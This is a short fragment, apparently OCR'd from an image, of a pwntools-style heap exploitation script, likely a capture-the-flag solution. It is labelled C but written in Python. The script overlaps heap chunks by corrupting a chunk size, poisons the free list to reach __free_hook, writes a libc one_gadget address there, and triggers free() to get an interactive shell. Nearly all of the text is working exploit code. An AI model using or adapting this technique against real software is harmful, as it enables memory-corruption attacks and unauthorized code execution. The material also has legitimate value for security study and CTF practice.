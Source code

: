 ```c
one = [0x4f29e, 0x4f2a5, 0x4f302, 0x10a2fc]

one_gadget = libc_base + one[2]

  
  

add(9, 0x38)

add(10, 0x38)

add(11, 0x38)

add(12, 0x38)

  

free(12)

edit(10, b'b'*0x38 + p8(0x71))#change the chunk size of 11 to 0x71

  

free(11)

  

add(11, 0x68)

edit(11, b'c'*0x38 + p64(41) + p64(free_hook))

add(12, 0x38)

add(13, 0x38)

edit(13, p64(one_gadget))

  

show(13)

print(hex(one_gadget))

# edit(12, b'/bin/sh\x00\x00')

free(1)

  
  
  

file.interactive()
```
